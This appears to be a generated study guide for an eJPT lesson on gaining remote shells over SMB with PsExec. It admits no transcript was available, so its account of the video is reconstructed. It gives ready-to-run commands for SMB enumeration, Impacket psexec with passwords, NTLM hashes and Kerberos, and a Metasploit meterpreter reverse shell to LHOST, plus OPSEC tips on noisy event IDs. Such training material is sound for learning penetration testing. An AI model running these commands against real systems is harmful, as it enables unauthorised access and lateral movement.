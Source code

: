 # What the video covers (Introduction / big picture)
Note: No transcript was provided. The following is a conservative, context-based summary of a typical eJPT lesson titled “Exploiting SMB With PsExec.”

- How to use the PsExec technique over SMB to gain remote command execution on Windows hosts once you have valid admin credentials.
- Why ADMIN$ access matters and how PsExec works (service creation via SMB, then spawning a SYSTEM shell).
- Demonstration with Impacket’s psexec.py (Linux/Kali), plus common alternatives (Sysinternals PsExec.exe and Metasploit’s psexec module).
- Pre-checks (enumerate SMB, validate creds, confirm admin rights) and post-exploitation basics.
- Troubleshooting common errors (UAC remote restrictions, insufficient privileges, SMB/firewall issues).

# Flow (ordered)
1. Discover SMB and identify Windows target (nmap).
2. Enumerate shares and basic info (nmap scripts, smbclient/smbmap).
3. Validate credentials against SMB; confirm they are administrative (ADMIN$).
4. Use Impacket psexec.py to obtain a remote shell (ideally SYSTEM).
5. Verify access and context on the target (whoami /all, hostname, systeminfo).
6. Optional: Use Pass-the-Hash or Kerberos with psexec if only hashes or tickets are available.
7. Alternatives: Sysinternals PsExec.exe (Windows-to-Windows), Metasploit psexec module (to get Meterpreter).
8. Troubleshoot typical failures; perform cleanup if needed.

# Tools highlighted
- nmap (with smb-* scripts)
- smbclient, smbmap
- crackmapexec (CME) for credential validation and quick checks
- Impacket’s psexec.py (or the “impacket-psexec” wrapper)
- Sysinternals PsExec.exe
- Metasploit Framework (exploit/windows/smb/psexec)

# Typical command walkthrough (detailed, copy-paste friendly)
Replace placeholders like <TARGET>, <USER>, <PASS>, <DOMAIN>, <NTLM_HASH>, <LHOST>.

Recon and enumeration:
```
# Discover SMB and enumerate
nmap -p 139,445 -sC -sV <TARGET>

# Deeper SMB enumeration
nmap --script "smb-os-discovery,smb-enum-shares,smb-enum-users" -p445 <TARGET>
```

Validate credentials and confirm admin rights:
```
# List shares with given creds (note quoting to protect special chars)
smbclient -L //<TARGET> -U '<USER>%<PASS>'

# Try accessing ADMIN$ (admin-only). If this works, creds are admin.
smbclient //<TARGET>/ADMIN$ -U '<USER>%<PASS>'

# Alternative quick validation with CME (local account example)
crackmapexec smb <TARGET> -u '<USER>' -p '<PASS>' --local-auth

# Show accessible shares via smbmap
smbmap -H <TARGET> -u '<USER>' -p '<PASS>'
```

Impacket PsExec (password-based):
```
# Impacket wrapper name may be 'psexec.py' or 'impacket-psexec' depending on distro

# Local account (SAM) on the target
psexec.py <USER>:'<PASS>'@<TARGET>

# Domain account
psexec.py '<DOMAIN>/<USER>:<PASS>'@<TARGET>

# Optional: better output handling and PowerShell
psexec.py -codec utf8 -shell-type powershell '<DOMAIN>/<USER>:<PASS>'@<TARGET>
```

Impacket PsExec (Pass-the-Hash):
```
# If you only have the NTLM hash (no password):
# Use the format -hashes LMHASH:NTHASH. If LM hash unknown, leave it empty (just the colon).
psexec.py -hashes :<NTLM_HASH> <USER>@<TARGET>

# Domain account with hash
psexec.py -hashes :<NTLM_HASH> '<DOMAIN>/<USER>'@<TARGET>
```

Impacket PsExec (Kerberos ticket):
```
# Acquire a TGT (ensure /etc/krb5.conf is set for the domain)
kinit <USER>@<DOMAIN>

# Use Kerberos (-k) and avoid password prompt (-no-pass). Specify DC if needed.
psexec.py -k -no-pass -dc-ip <DC_IP> '<DOMAIN>/<USER>'@<TARGET>
```

Post-exploitation basics once you get a shell:
```
whoami
whoami /all
hostname
ipconfig /all
systeminfo
dir C:\
```

Alternative: Sysinternals PsExec.exe (from a Windows box):
```
# Run CMD on the remote host
PsExec.exe \\<TARGET> -u <USER> -p <PASS> cmd.exe

# Or run a one-liner command remotely (e.g., whoami)
PsExec.exe \\<TARGET> -u <USER> -p <PASS> cmd.exe /c whoami
```

Alternative: Metasploit psexec for Meterpreter:
```
msfconsole
use exploit/windows/smb/psexec
set RHOSTS <TARGET>
set SMBUser <USER>
set SMBPass <PASS>
# set SMBDomain <DOMAIN>   # if applicable
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <LHOST>
run
```

Cleanup (if a service is left behind — Impacket removes it automatically in most cases):
```
# List services and remove stale one if necessary (example name)
sc query state= all | findstr /I "remcom psexec"
sc delete <ServiceName>
```

# Practical tips
- Admin rights required: PsExec needs rights to create a service and access ADMIN$. If ADMIN$ is inaccessible, you likely lack admin rights or are blocked by remote UAC.
- Remote UAC (filtered token): Local admin accounts (not the built-in Administrator) can be “filtered” over the network. Use the built-in Administrator, a domain admin, or set LocalAccountTokenFilterPolicy (defenders often block this).
- Encoding/terminal quirks: Use -codec utf8 in Impacket to avoid garbled output.
- Firewall/SMB: Ensure TCP/445 is reachable and local firewalls aren’t blocking SMB or Service Control Manager (SCM) operations.
- Pass-the-Hash: Works when NTLM is accepted and SMB signing/policies allow it. Supply -hashes :<NTHASH>.
- Privilege level: Successful PsExec typically lands you as NT AUTHORITY\SYSTEM because the service runs as LocalSystem.
- OPSEC: PsExec service creation is noisy (Windows Event 7045, 4697). wmiexec.py is stealthier but slower; psexec is fast and reliable.
- Quoting: Quote passwords containing special characters, e.g., psexec.py <USER>:'P@ssw0rd!'@<TARGET>.
- Domain vs local: For domain, use '<DOMAIN>/<USER>:<PASS>'@<TARGET>. For local, <USER>:'<PASS>'@<TARGET> is sufficient.
- If using CME to verify admin: Running a simple command helps confirm execution rights:
  crackmapexec smb <TARGET> -u '<USER>' -p '<PASS>' --local-auth -x "whoami"

# Minimal cheat sheet (one-screen flow)
```
# 1) Recon
nmap -p 139,445 -sC -sV <TARGET>
nmap --script smb-os-discovery,smb-enum-shares -p445 <TARGET>

# 2) Validate creds and admin
smbclient -L //<TARGET> -U '<USER>%<PASS>'
smbclient //<TARGET>/ADMIN$ -U '<USER>%<PASS>'          # success = admin
crackmapexec smb <TARGET> -u '<USER>' -p '<PASS>' --local-auth

# 3) Get a shell (Impacket PsExec)
psexec.py <USER>:'<PASS>'@<TARGET>
# or domain
psexec.py '<DOMAIN>/<USER>:<PASS>'@<TARGET>
# or Pass-the-Hash
psexec.py -hashes :<NTLM_HASH> <USER>@<TARGET>

# 4) Verify and enumerate
whoami /all
hostname
systeminfo

# 5) Alternative (Windows)
PsExec.exe \\<TARGET> -u <USER> -p <PASS> cmd.exe

# 6) Alternative (Metasploit)
use exploit/windows/smb/psexec
set RHOSTS <TARGET>
set SMBUser <USER>
set SMBPass <PASS>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <LHOST>
run
```

# Summary
- PsExec over SMB is a reliable post-auth technique to execute commands remotely on Windows by creating a temporary service via ADMIN$.
- Before launching PsExec, ensure SMB is exposed, credentials are valid, and the account has administrative access (ADMIN$).
- Impacket’s psexec.py is the common choice on Kali; it supports passwords, NTLM hashes (Pass-the-Hash), and Kerberos tickets.
- You typically obtain a SYSTEM-level shell upon success. Use standard Windows commands to verify context and proceed with post-exploitation.
- If PsExec fails, check for admin rights, remote UAC, SMB reachability, and consider alternatives (wmiexec.py, WinRM, or Metasploit).